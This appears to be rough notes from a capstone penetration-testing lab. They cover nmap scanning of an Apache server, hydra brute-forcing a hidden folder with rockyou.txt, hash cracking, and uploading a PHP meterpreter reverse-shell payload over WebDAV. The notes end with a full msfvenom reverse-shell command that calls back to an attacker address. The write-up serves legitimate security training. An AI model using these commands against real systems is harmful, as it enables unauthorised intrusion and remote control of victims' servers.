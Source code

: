 service scan:

	`nmap -sV -sC -A -p- $(cat capstone_ipu)`
	
80 is ope apache httpd 2.4.29 and the script scan, since this version is pretty old, allows a directory scan of folders that exist. 

MAC Address: Microsoft 

It also runs a tracceroute where the address 1 hop away on the virtual network. 

Basicially, you go through all the directories until you are able to find a note reading ERROR: FILE MISSING please refer to company_folders/secret_folder/

This folder utilized hydra's http-get capabilities.
After digging around in the filesystem you find a username: and with rockyou.txt. http-get is without an option so simplified: 
`hydra argument http-get </path/secret_folder>`

Now we get another hash to reaveal another password. John the ripper or even the Crack Station site was able to crack this hash instantly. 


webdav 

webdav can be accessed dav://192.168.1.105/webdav/ since the kali machine is in the virtaul network. You can go then upload a msfvenom payload. I tried a few of them as it would be a good opportunity to see in the Blue Team segment. 

the final payload payload3>  msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > shell.php
